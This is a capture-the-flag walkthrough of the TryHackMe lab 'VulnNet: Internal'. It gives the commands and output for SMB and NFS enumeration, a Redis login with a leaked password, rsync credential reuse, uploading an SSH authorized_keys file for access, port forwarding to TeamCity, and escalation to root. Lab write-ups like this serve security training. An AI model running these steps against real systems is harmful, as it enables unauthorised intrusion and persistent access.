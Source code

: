 # VulnNet: Internal

This is a write-up for the machine VulnNet: Internal located at: [https://tryhackme.com/room/vulnnetinternal](https://tryhackme.com/room/vulnnetinternal)

I ran an nmap scan

```c
nmap -T4 -A 10.10.98.192 -oN nmap_output.txt
```

This is the output I got:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 17:37 EDT
Nmap scan report for 10.10.98.192
Host is up (0.20s latency).
Not shown: 993 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34713/tcp   mountd
|   100005  1,2,3      45887/tcp6  mountd
|   100005  1,2,3      46635/udp6  mountd
|   100005  1,2,3      55619/udp   mountd
|   100021  1,3,4      43989/tcp6  nlockmgr
|   100021  1,3,4      46185/tcp   nlockmgr
|   100021  1,3,4      55225/udp   nlockmgr
|   100021  1,3,4      55609/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-09-23T23:38:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-23T21:38:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.51 seconds
```

I then ran **smbmap -H IP\_Address**, and got the following output:

```c
[+] Guest session       IP: 10.10.98.192:445    Name: 10.10.98.192                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        shares                                                  READ ONLY       VulnNet Business Shares
        IPC$                                                    NO ACCESS       IPC Service (vulnnet-internal server (Samba, Ubuntu))
```

I then ran **smbclient \\\\\\\10.10.98.192\\\shares**, and got the following output:

```c
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 04:20:09 2021
  ..                                  D        0  Tue Feb  2 04:28:11 2021
  temp                                D        0  Sat Feb  6 06:45:10 2021
  data                                D        0  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3278156 blocks available
```

In the **temp** folder, there was the following file:

```c
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 06:45:10 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  services.txt                        N       38  Sat Feb  6 06:45:09 2021
```

In the **data** folder, there was the following file:

```c
smb: \data\> ls
  .                                   D        0  Tue Feb  2 04:27:33 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  data.txt                            N       48  Tue Feb  2 04:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 04:27:33 2021
```

Looking through the files, I found the flag for the services.txt:

![](<../../.gitbook/assets/image (199).png>)

I then ran a **metasploit** module **auxiliary/scanner/rsync/modules\_list**. This is what I got from the result from it:

![](<../../.gitbook/assets/image (200).png>)

I then read [this write-up](https://cyberrat.medium.com/vulnnet-internal-tryhackeme-cad6ccb9ad54) and realized that I did not use the **showmount** command. I then followed the write-up to run **showmeant -e IP\_Address**. I then got the following:

![](<../../.gitbook/assets/image (201).png>)

I then mounted the system to my machine:

![](<../../.gitbook/assets/image (202).png>)

Viewing through the files I came across some sort of password in the redis.conf file:

![](<../../.gitbook/assets/image (203).png>)

I then followed the same write-up to understand my next step. This was to use **redis-cli** in order to connect to the database and see what is there using the pasword we found earlier. I ran **redis-cli -h 10.10.98.192 -a \<requirepass\_from\_earlier>** in order to login to the database. I then was able to find the flag for internal:

![](<../../.gitbook/assets/image (204).png>)

When I ran **LRANGE authlist 1 20**, I got the following:

![](<../../.gitbook/assets/image (205).png>)

The three values were the exact same, and seemed to be base64 encoded. I decoded it online and got the following:

![](<../../.gitbook/assets/image (206).png>)

So now we have to connect to rsync with this password:

![](<../../.gitbook/assets/image (207).png>)

There is a sys-internal directory that I ave to find a way to get access into. I followed the aforementioned write-up and ran the following commands (tweaked to work for me):

```c
mkdir local_storage
rsync -av rsync://rsync-connect@10.10.98.192/files local_storage
```

This allowed me to download the folder to my local drive. In that directory, I found the user.txt file:

![](<../../.gitbook/assets/image (208).png>)

I got stuck here, so I had to view the write-up again. I was meant to create an SSH keypair and upload it using rsync. So I ran the following commands:

```c
ssh-keygen -t rsa 
cat internals.pub | tee authorized_keys && chmod 600 authorized_keys
rsync -av authorized_keys rsync://rsync-connect@10.10.98.192/files/sys-internal/.ssh  
```

For the previous step, I ended up getting stuck, and found [this write-up](https://muzec0318.github.io/posts/vulnet.html) that actually clarified the situation for me. This same write-up led me to run **ss** **-tulpn** to find out what ports were open. I used the same write-up to figure out we have to do port forwarding. In order to do this, I ran the following command:

```c
ssh -i internals -L 8111:localhost:8111 sys-internal@10.10.98.192 
```

Visiting `localhost:8111` led me to the following page:

![](<../../.gitbook/assets/image (209).png>)

I then searched for the word **token** in the whole filesystem to find a token for the following webpage:

![](<../../.gitbook/assets/image (210).png>)

The second to last authentication token worked for me! I then created a new project:

![](<../../.gitbook/assets/image (211).png>)

I then created a build config:

![](<../../.gitbook/assets/image (212).png>)

I then went to Build Steps and followed a bit of [this write-up](https://infosecwriteups.com/tryhackme-writeup-vulnet-internal-9abe74955f32) for this part. I following the following image:

![](<../../.gitbook/assets/image (213).png>)

I then ran the script from the choice on top, and when I went back to my previous shell, I ran **/bin/bash -p**, and I was able to get root:

![](<../../.gitbook/assets/image (214).png>)

I wan then able to get the root flag:

![](<../../.gitbook/assets/image (215).png>)
